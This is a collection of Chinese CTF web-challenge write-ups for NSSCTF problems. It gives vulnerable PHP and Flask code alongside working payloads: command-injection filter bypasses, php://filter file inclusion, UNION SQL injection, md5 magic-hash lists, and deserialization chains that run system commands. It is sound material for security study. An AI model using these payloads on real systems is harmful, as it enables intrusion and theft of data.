

# WEB十月
## [SWPUCTF 2021 新生赛]finalrce
> url：https://www.nssctf.cn/problem/438
>知识点：无回显rce

```php
 <?php
highlight_file(__FILE__);
if(isset($_GET['url']))
{
    $url=$_GET['url'];
    if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url))
    {
        echo "Sorry,you can't use this.";
    }
    else
    {
        echo "Can you see anything?";
        exec($url);
    }
} 
```
这里把flag，cat，ls等字符给过滤掉了，但是/符号没有过滤


用system没用，那么就试一下tee
 因为没有回显，所以需要把查看出来的内容读取并且写入一个地方来查看，tee命令就是从标准输入读取，再写入标准输出和文件。简单说就是把查看的内容读取然后写入到后面的1.txt文件
构造payload

```
http://node7.anna.nssctf.cn:25613/?url=l\s /|tee 1.txt;
```
再访问1.txt

用样的方法cat flllllaaaaaaggggggg
构造payload
```
http://node7.anna.nssctf.cn:25613/?url=c\at flllll\aaaaaaggggggg |tee 2.txt
```
不知道为什么ca\t没用，那就
```
http://node7.anna.nssctf.cn:25613/?url=tac /flllll\aaaaaaggggggg|tee 2.txt
```

得到flag

## [UUCTF 2022 新生赛]websign
>url:https://www.nssctf.cn/problem/3053


提示原代码有东西，但是右键没用

这个地方可以打开原代码


## [HDCTF 2023]Welcome To HDCTF 2023
>url:https://www.nssctf.cn/problem/3786

打开题目是一个游戏

调试器会发现jsfuck加密

解码得到flag


## [NSSCTF 2022 Spring Recruit]babyphp
>url:https://www.nssctf.cn/problem/2076

```php
 <?php
highlight_file(__FILE__);
include_once('flag.php');
if(isset($_POST['a'])&&!preg_match('/[0-9]/',$_POST['a'])&&intval($_POST['a'])){
    if(isset($_POST['b1'])&&$_POST['b2']){
        if($_POST['b1']!=$_POST['b2']&&md5($_POST['b1'])===md5($_POST['b2'])){
            if($_POST['c1']!=$_POST['c2']&&is_string($_POST['c1'])&&is_string($_POST['c2'])&&md5($_POST['c1'])==md5($_POST['c2'])){
                echo $flag;
            }else{
                echo "yee";
            }
        }else{
            echo "nop";
        }
    }else{
        echo "go on";
    }
}else{
    echo "let's get some php";
}
?> let's get some php
```
知识点：
```
1、对于php强比较和弱比较：md5()，sha1()函数无法处理数组，如果传入的为数组，会返回NULL，两个数组经过加密后得到的都是NULL，也就是相等的。

2、对于某些特殊的字符串加密后得到的密文以0e开头，PHP会当作科学计数法来处理，也就是0的n次方，得到的值比较的时候都相同。
常见的md5和sha1
md5：
 
240610708:0e462097431906509019562988736854
QLTHNDT:0e405967825401955372549139051580
QNKCDZO:0e830400451993494058024219903391
PJNPDWY:0e291529052894702774557631701704
NWWKITQ:0e763082070976038347657360817689
NOOPCJF:0e818888003657176127862245791911
MMHUWUV:0e701732711630150438129209816536
MAUXXQC:0e478478466848439040434801845361
 
 
sha1：
 
10932435112: 0e07766915004133176347055865026311692244
aaroZmOk: 0e66507019969427134894567494305185566735
aaK1STfY: 0e76658526655756207688271159624026011393
aaO8zKZF: 0e89257456677279068558073954252716165668
aa3OFF9m: 0e36977786278517984959260394024281014729
0e1290633704: 0e19985187802402577070739524195726831799
```
这里把数字过滤了就不能用数组绕过了

继续解题
对于a,b1,b2只要用数组过滤就可以了，c1,c2因为要求是字符，所以用md5绕过
最后得到flag


## [HNCTF 2022 Week1]Interesting_include
>url:https://www.nssctf.cn/problem/2900
>知识点：文件包含

```php
<?php
//WEB手要懂得搜索
//flag in ./flag.php

if(isset($_GET['filter'])){
    $file = $_GET['filter'];
    if(!preg_match("/flag/i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
} 
```
用伪协议读，构造payload：
```
http://node5.anna.nssctf.cn:25698/?filter=php://filter/read=convert.base64-encode/resource=flag.php
```

base64解码

得到flag

## [鹤城杯 2021]EasyP
>url:https://www.nssctf.cn/problem/463
>知识点：文件包含

```php
<?php
include 'utils.php';

if (isset($_POST['guess'])) {
    $guess = (string) $_POST['guess'];
    if ($guess === $secret) {
        $message = 'Congratulations! The flag is: ' . $flag;
    } else {
        $message = 'Wrong. Try Again';
    }
}

if (preg_match('/utils\.php\/*$/i', $_SERVER['PHP_SELF'])) {
    exit("hacker :)");
}

if (preg_match('/show_source/', $_SERVER['REQUEST_URI'])){
    exit("hacker :)");
}

if (isset($_GET['show_source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
    exit();
}else{
    show_source(__FILE__);
}
?> 
```
这道题难在容易被post迷惑，其实不是post传参，是利用$_SERVER函数来show_source(__FILE__);


$_SERVER[...]：是一个包含了诸如头信息（header）、路径（path）、以及脚本位置（script locations）等信息的数组。根据中括号内传入的参数不同，返回不同的信息，下面是题目涉及的两个参数：

'PHP_SELF'：返回当前执行脚本的文件名。例如：在地址为http://example.com/foo/bar.php的脚本中使用 $_SERVER['PHP_SELF'] 将得到 /foo/bar.php

'REQUEST_URI'：取得当前URL的路径地址，感觉跟上面那个没啥区别

 basename()：返回路径中的文件名部分

接着我们看代码：

第一个if语句，当POST传入的参数$guest等于$secret时返回flag，但这里不知道$secret是啥，先不管

第二个if语句，检查当前执行脚本的文件名，从后往前若找到utils.php则过滤掉

    模式分隔符后的"i"标记这是一个大小写不敏感的搜索

第三个if语句，检查当前URL的路径地址，若出现show_source则过滤掉

第四个if语句，检查show_source是否有定义

综上，我们先忽略POST传参，其次我们需要GET传入show_source，使得路径包含我们需要查看的文件，利用文件包含highlight_file使得页面回显php代码，即题目提示的utils.php
构造payload
```
http://node4.anna.nssctf.cn:28418/index.php/utils.php/哈哈?show[source=1
```
得到flag


## [SWPUCTF 2022 新生赛]ez_ez_php(revenge)
>url:https://www.nssctf.cn/problem/2821
```php
 <?php
error_reporting(0);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 3) === "php" ) {
        echo "Nice!!!";
        include($_GET["file"]);
    } 

    else {
        echo "Hacker!!";
    }
}else {
    highlight_file(__FILE__);
}
//flag.php 
```
代码的意思是确认file的前三个字符是php，刚好用php伪协议读flag就包含了前三个字符是php的前提条件

构造payload：
```
http://node5.anna.nssctf.cn:27422/?file=php://filter/read=convert.base64-encode/resource=flag.php
```

然后解码
```php
<?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");


echo   "NSSCTF{flag_is_not_here}" ."<br/>";
echo "real_flag_is_in_ '/flag' "."<br/>";
echo "换个思路，试试PHP伪协议呢";

```
提示了flag在/flag里，修改payload
```
http://node5.anna.nssctf.cn:27422/?file=php://filter/read=convert.base64-encode/resource=/flag
```

再解码得到flag
NSSCTF{8e567b75-c892-40a9-9f28-698640521510}

## [HUBUCTF 2022 新生赛]checkin
>url:https://www.nssctf.cn/problem/2602
>知识点：反序列化，弱比较

```php
<?php
show_source(__FILE__);
$username  = "this_is_secret"; 
$password  = "this_is_not_known_to_you"; 
include("flag.php");//here I changed those two 
$info = isset($_GET['info'])? $_GET['info']: "" ;
$data_unserialize = unserialize($info);
if ($data_unserialize['username']==$username&&$data_unserialize['password']==$password){
    echo $flag;
}else{
    echo "username or password error!";

}

?>
```
这里要满足反序列化的弱比较
但是注意进行序列化的时候不是用username  = "this_is_secret"和password  = "this_is_not_known_to_you"。因为第五行说了已经修改过内容了，所以如下构造是错的
```php
<?php
$info=array("username"  => "this_is_secret","password " => "this_is_not_known_to_you");
$info=serialize($info);
var_dump($info);
?>
```

在这里正确的方法是
```php
<?php
$info = array(
	'username'=>true,
	'password'=>true
);
echo  serialize($info);

```

所以构造payload:
```
http://node5.anna.nssctf.cn:27731/?info=a:2:{s:8:"username";i:0;s:8:"password";i:0;}
```


## [LitCTF 2023]这是什么？SQL ！注一下 ！
>url:https://www.nssctf.cn/problem/3868
>知识点：布尔盲注


根据提示判断闭合方式为))))))
然后查询回显位数


回显两位

上图显示两位都有数据
构造payload查看表名
```
http://node5.anna.nssctf.cn:24324/?id=-1)))))) union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```

只有一个users表，然后查询表中所有列名，构造payload：
```
http://node5.anna.nssctf.cn:24324/?id=1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="users"--+
```

有三列
然后
```
-1)))))) union select username,password from users--+
```
查询内容

得到一个假的flag
看来不是这个数据库
```
-1)))))) union select 1,schema_name from information_schema.schemata--+

```
查询其他数据库

看到还有一个 ctftraining 数据库
然后经行同样的操作
```
id=-1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema="ctftraining" 
```
区别就是将原来的database()改为数据库名，记住加双引号
```
http://node5.anna.nssctf.cn:24324/?id=-1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema="ctftraining" and table_name="flag"--+

```


```
-1)))))) union select 1,flag from ctftraining.flag--+
```
构造paload查找内容

得到falg

## [GDOUCTF 2023]泄露的伪装
>url:https://www.nssctf.cn/problem/3700
>知识点：php伪协议

直接用随波逐流扫描目录

一个一个试过去，到test.txt，得到一段php代码
```php
<?php
error_reporting(0);
if(isset($_GET['cxk'])){
    $cxk=$_GET['cxk'];
    if(file_get_contents($cxk)=="ctrl"){
        echo $flag;
    }else{
        echo "娲楁礂鐫″惂";
    }
}else{
    echo "nononoononoonono";
}
?>
```
这里主要需要理解file_get_contents函数
构造cxk参数使其指向内容为"ctrl"的资源，用data协议可以将内容写入
构造payload：
```
http://node5.anna.nssctf.cn:24082/orzorz.php?cxk=data://text/plain,ctrl
```


## [UUCTF 2022 新生赛]ez_rce
>url:https://www.nssctf.cn/problem/3090
>知识点：RCE

```php
居然都不输入参数，可恶!!!!!!!!!

<?php
## 放弃把，小伙子，你真的不会RCE,何必在此纠结呢？？？？？？？？？？？？
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if (!preg_match('/sys|pas|read|file|ls|cat|tac|head|tail|more|less|php|base|echo|cp|\$|\*|\+|\^|scan|\.|local|current|chr|crypt|show_source|high|readgzfile|dirname|time|next|all|hex2bin|im|shell/i',$code)){
        echo '看看你输入的参数！！！不叫样子！！';echo '<br>';
        eval($code);
    }
    else{
        die("你想干什么？？？？？？？？？");
    }
}
else{
    echo "居然都不输入参数，可恶!!!!!!!!!";
    show_source(__FILE__);
}

```
这里将许多东西过滤掉了，比如system和pasthruh
看了一下别人的wp，还可以用printf，而且\也没有被过滤
构造payload
```
http://node5.anna.nssctf.cn:20716//?code=printf(`l\s /`);
```
注意这里是" ` " 不是" ' ",传入分号是因为code是作为一条php语句执行的

用同样的方法cat flag
```
http://node5.anna.nssctf.cn:20716//?code=printf(`c\at /fffffffffflagafag`);
```


## [HNCTF 2022 Week1]2048
>url:https://www.nssctf.cn/problem/2898
>知识点：js


打开是一个游戏界面

在js里找到了游戏结束时会输出一段字符串
方法1：下断点，并在控制台里给this.score赋值20000；
方法2：直接放进随波逐流里面


## [HNCTF 2022 Week1]easy_html
>url:https://www.nssctf.cn/problem/2899
>知识点：http协议

打开题目没有东西，抓包看一下

然后访问f14g.php

输入手机号的时候发现只能输入10位
直接在bp的重发器里里将10位的手机号码修改为正确的手机号码

得到flag

## [羊城杯 2020]easycon
>url：https://www.nssctf.cn/problem/1421
>知识点：目录扫描

打开题目是一个ubuntu的介绍界面

用随波逐流扫描

发现index.php


直接用蚁剑链接，链接密码是cmd

点进一个.txt文件

看别人的wp说这要base64转图片
放在随波逐流里进行转换

得到flag
## [SWPUCTF 2022 新生赛]奇妙的MD5
>url:https://www.nssctf.cn/problem/2638
>知识点：弱比较，md5


抓包看到关键的地方

这里字符串 ffifdyop经行md5加密后可以变为万能密码
输入进去然后打开源码

这里进行简单的md5绕过就可以
构造payload
```
http://node5.anna.nssctf.cn:27948/c0nt1nue.php?x=QLTHNDT&y=QNKCDZO
```

然后用数组绕过就可以得到flag，这里是===强比较所以要找到md5也相同的字符串要用工具，这里九直接使用数组绕过

http://node5.anna.nssctf.cn:27948/f1na11y.php

## [SWPUCTF 2022 新生赛]1z_unserialize
>url:https://www.nssctf.cn/problem/2883
>知识点：反序列化

打开题目有一段php代码
```php
<?php
 
class lyh{
    public $url = 'NSSCTF.com';
    public $lt;
    public $lly;
     
     function  __destruct()
     {
        $a = $this->lt;

        $a($this->lly);
     }
    
    
}
unserialize($_POST['nss']);
highlight_file(__FILE__);
 
 
?> 
```
简单的反序列化
只要传参把$a变成system();$this->lly变成ls或者cat就是一个简单的命令注入了


然后post传参
构造payload:
```
nss=O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:2:"ls";}
```


看到一个index.php,访问进去没有东西
但是至少说明有用，然后把ls改成cat /flag

构造payload得到flag
```payload
nss=O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:9:"cat /flag";}
```


## [SWPUCTF 2022 新生赛]ez_ez_unserialize
>url:https://www.nssctf.cn/problem/3082
>知识点：反序列化

打开题目得到php代码
```php
<?php
class X
{
    public $x = __FILE__;
    function __construct($x)
    {
        $this->x = $x;
    }
    function __wakeup()
    {
        if ($this->x !== __FILE__) {
            $this->x = __FILE__;
        }
    }
    function __destruct()
    {
        highlight_file($this->x);
        //flag is in fllllllag.php
    }
}
if (isset($_REQUEST['x'])) {
    @unserialize($_REQUEST['x']);
} else {
    highlight_file(__FILE__);
} 
```
题目告诉我们flag在哪，而且类中有高亮文件方法。怎么拿flag已经很明显了。关键点在于__weakup()魔术方法固定死了我们高亮的文件。所以这题只需要绕过__weakup()。

第一步先序列化

然后将生成的
O:1:"X":1:{s:1:"x";s:13:"fllllllag.php";}
修改为
O:1:"X":2:{s:1:"x";s:13:"fllllllag.php";}

构造payload
```
http://node5.anna.nssctf.cn:28637/?x=O:1:"X":2:{s:1:"x";s:13:"fllllllag.php";}
```


## [GKCTF 2020]cve版签到
>url:https://www.nssctf.cn/problem/1300
>知识点:%00截断


打开题目一个连接，点进去也没有什么东西

看看网络，里面有提示

后缀为.ctfhub.com才能访问，但是提示说又是在127.0.0.1
这里就要用%00截断了

原理：截断是操作系统层的漏洞，由于操作系统是C语言或汇编语言编写的，这两种语言在定义字符串时，都是以\0（即0x00）作为字符串的结尾。操作系统在识别字符串时，当读取到\0字符时，就认为读取到了一个字符串的结束符号。因此，我们可以通过修改数据包，插入\0字符的方式，达到字符串截断的目的。00截断通常用来绕过web软waf的白名单限制。

构造payload：
```
http://node7.anna.nssctf.cn:25053/?url=http://127.0.0.1%00.ctfhub.com
```

又出现提示
把127.0.0.1改成127.0.0.123
```
http://node7.anna.nssctf.cn:25053/?url=http://127.0.0.123%00.ctfhub.com
```


## [MoeCTF 2022]baby_file
>url:https://www.nssctf.cn/problem/3345
>知识点：php伪协议

```php
<html>
<title>Here's a secret. Can you find it?</title>
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
?>
</html> 
```

直接让file=file没用

放在水波逐流里烧一下
发现有flag.php
用伪协议
```
http://node5.anna.nssctf.cn:25876/?file=php://filter/read=convert.base64-encode/resource=flag.php
```


## [NISACTF 2022]babyupload
>url:https://www.nssctf.cn/problem/2025
>知识点：文件上传


随便上传一个木马文件没用


没看出什么东西，看看原代码

看到这里有一个source文件，访问一下
访问后得到一个压缩包

打开时一段py代码
```py
from flask import Flask, request, redirect, g, send_from_directory
import sqlite3
import os
import uuid

app = Flask(__name__)

SCHEMA = """CREATE TABLE files (
id text primary key,
path text
);
"""


def db():
    g_db = getattr(g, '_database', None)
    if g_db is None:
        g_db = g._database = sqlite3.connect("database.db")
    return g_db


@app.before_first_request
def setup():
    os.remove("database.db")
    cur = db().cursor()
    cur.executescript(SCHEMA)


@app.route('/')
def hello_world():
    return """<!DOCTYPE html>
<html>
<body>
<form action="/upload" method="post" enctype="multipart/form-data">
    Select image to upload:
    <input type="file" name="file">
    <input type="submit" value="Upload File" name="submit">
</form>
<!-- /source -->
</body>
</html>"""


@app.route('/source')
def source():
    return send_from_directory(directory="/var/www/html/", path="www.zip", as_attachment=True)


@app.route('/upload', methods=['POST'])
def upload():
    if 'file' not in request.files:
        return redirect('/')
    file = request.files['file']
    if "." in file.filename:
        return "Bad filename!", 403
    conn = db()
    cur = conn.cursor()
    uid = uuid.uuid4().hex
    try:
        cur.execute("insert into files (id, path) values (?, ?)", (uid, file.filename,))
    except sqlite3.IntegrityError:
        return "Duplicate file"
    conn.commit()

    file.save('uploads/' + file.filename)
    return redirect('/file/' + uid)


@app.route('/file/<id>')
def file(id):
    conn = db()
    cur = conn.cursor()
    cur.execute("select path from files where id=?", (id,))
    res = cur.fetchone()
    if res is None:
        return "File not found", 404

    # print(res[0])

    with open(os.path.join("uploads/", res[0]), "r") as f:
        return f.read()


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)

```


这里重点关注upload函数和file函数
1. upload函数：
核心逻辑：接收上传的文件，验证文件名（禁止含 "."），生成唯一 ID 并与文件名存入数据库，最后将文件保存到 uploads/ 目录，并重定向到文件访问页。
2. file函数：
功能：根据唯一 ID 从数据库查询文件名，然后读取 uploads/ 目录下对应的文件内容并返回给用户。

这里就涉及到  os.path.join() 的绝对路径拼接漏洞：


    绝对路径拼接漏洞

    os.path.join(path,*paths)函数用于将多个文件路径连接成一个组合的路径。第一个函数通常包含了基础路径，而之后的每个参数被当作组件拼接到基础路径之后。

    然而，这个函数有一个少有人知的特性，如果拼接的某个路径以 / 开头，那么包括基础路径在内的所有前缀路径都将被删除，该路径将视为绝对路径


利用这一点1我们将文件名改为/flag

获得了访问路径，访问进去

得到flag

## [HNCTF 2022 Week1]Interesting_http
>url:https://www.nssctf.cn/problem/2897
>知识点：http

打开题目叫我post


post了，但是，没用

扫了一下目录，发现有flag，猜测是用伪协议去读取flag
读了但是没用
根据提示，这里是要want，所以猜测参数是want

显示not admin
抓包看看

把这里的notadmin改成admin

改完之后显示not located
用XXF改为127.0.0.1

然后就得到flag

## [GDOUCTF 2023]受不了一点
>url:https://www.nssctf.cn/problem/3727
>知识点：弱比较，数组绕过

```php
 <?php
error_reporting(0);
header("Content-type:text/html;charset=utf-8");
if(isset($_POST['gdou'])&&isset($_POST['ctf'])){
    $b=$_POST['ctf'];
    $a=$_POST['gdou'];
    if($_POST['gdou']!=$_POST['ctf'] && md5($a)===md5($b)){
        if(isset($_COOKIE['cookie'])){
           if ($_COOKIE['cookie']=='j0k3r'){
               if(isset($_GET['aaa']) && isset($_GET['bbb'])){
                  $aaa=$_GET['aaa'];
                  $bbb=$_GET['bbb'];
                 if($aaa==114514 && $bbb==114514 && $aaa!=$bbb){
                   $give = 'cancanwordflag';
                   $get ='hacker!';
                   if(isset($_GET['flag']) && isset($_POST['flag'])){
                         die($give);
                    }
                   if($_POST['flag'] === 'flag' || $_GET['flag'] === 'flag'){
                       die($get);
                    }
                    foreach ($_POST as $key => $value) {
                        $$key = $value;
                   }
                    foreach ($_GET as $key => $value) {
                         $$key = $$value;
                    }
                   echo $flag;
            }else{
                  echo "洗洗睡吧";
                 }
    }else{
        echo "行不行啊细狗";
        }
  }
}
else {
  echo '菜菜';
}
}else{
  echo "就这?";
}
}else{
  echo "别来沾边";
}
?>
别来沾边
```

第一层绕过，只需1用数组绕过就型
gdou[]=1&ctf[]=2
第二步
给cookie加上j0k3R
第三步
$aaa 和 $bbb 都松散等于 114514（PHP 弱类型比较，比如 '114514a' == 114514 成立），但 $aaa 和 $bbb 的值不能相等。
（例如：aaa=114514a、bbb=114514b 即可满足，因为它们与 114514 松散相等，但彼此不等）
然后就可以得到flag


## [HNCTF 2022 Week1]What is Web
>url:https://www.nssctf.cn/problem/2896

直接看源码

然后解码就是flag


## [NISACTF 2022]babyserialize
>url:https://www.nssctf.cn/problem/1852
>知识点：反序列化

```php
 <?php
include "waf.php";
class NISA{
    public $fun="show_me_flag";
    public $txw4ever;
    public function __wakeup()
    {
        if($this->fun=="show_me_flag"){
            hint();
        }
    }

    function __call($from,$val){
        $this->fun=$val[0];
    }

    public function __toString()
    {
        echo $this->fun;
        return " ";
    }
    public function __invoke()
    {
        checkcheck($this->txw4ever);
        @eval($this->txw4ever);
    }
}

class TianXiWei{
    public $ext;
    public $x;
    public function __wakeup()
    {
        $this->ext->nisa($this->x);
    }
}

class Ilovetxw{
    public $huang;
    public $su;

    public function __call($fun1,$arg){
        $this->huang->fun=$arg[0];
    }

    public function __toString(){
        $bb = $this->su;
        return $bb();
    }
}

class four{
    public $a="TXW4EVER";
    private $fun='abc';

    public function __set($name, $value)
    {
        $this->$name=$value;
        if ($this->fun = "sixsixsix"){
            strtolower($this->a);
        }
    }
}

if(isset($_GET['ser'])){
    @unserialize($_GET['ser']);
}else{
    highlight_file(__FILE__);
}

//func checkcheck($data){
//  if(preg_match(......)){
//      die(something wrong);
//  }
//}

//function hint(){
//    echo ".......";
//    die();
//}
?>

```

这里需要先理解调用链，然后进行反序化
。关键调用链如下：

    反序列化TianXiWei对象，触发其__wakeup方法，调用ext->nisa(x)。
    若ext是Ilovetxw实例（无nisa方法），触发Ilovetxw的__call方法，修改huang->fun。
    若huang是four实例（fun为私有属性），触发four的__set方法，执行strtolower($this->a)。
    若four->a是Ilovetxw实例，触发其__toString方法，调用su()（将su作为函数执行）。
    若su是NISA实例，触发其__invoke方法，最终通过eval执行代码。

构造过程

    构造NISA对象：设置txw4ever为待执行的代码（如读 flag），修改fun避免__wakeup中断。
    构造Ilovetxw对象（su 指向 NISA）：使其__toString触发NISA的__invoke。
    构造four对象（a 指向 Ilovetxw）：使其__set触发Ilovetxw的__toString。
    构造Ilovetxw对象（huang 指向 four）：使其__call触发four的__set。
    构造TianXiWei对象（ext 指向 Ilovetxw）：作为反序列化入口，触发整个链。

简化流程图就是：
TianXiWei实例 → 触发__wakeup → 调用Ilovetxw实例的不存在方法 → 触发__call → 给four实例的私有属性赋值 → 触发__set → 将Ilovetxw实例当作字符串 → 触发__toString → 调用NISA实例作为函数 → 触发__invoke → 执行代码。

```php
<?php
 
class NISA{
    public $fun;
    public $txw4ever; // 1 shell
   
}
 
class TianXiWei{
    public $ext; //5 Ilovetxw
    public $x;
   
}
 
class Ilovetxw{
    public $huang; //4 four
    public $su; //2 NISA
 
  
}
 
class four{
    public $a="TXW4EVER"; //3 Ilovetxw
    private $fun='sixsixsix'; //fun = "sixsixsix
 
  
}
 
 
$n = new NISA();
$n->txw4ever = 'System("cat /f*");';
$n->fun = "666";
$i = new Ilovetxw();
$i->su = $n;
$f = new four();
$f->a = $i;
$i = new Ilovetxw();
$i->huang = $f;
$t = new TianXiWei();
$t->ext = $i;
echo urlencode(serialize($t));

```


进行反序列化操作

然后get传参，得到flag

1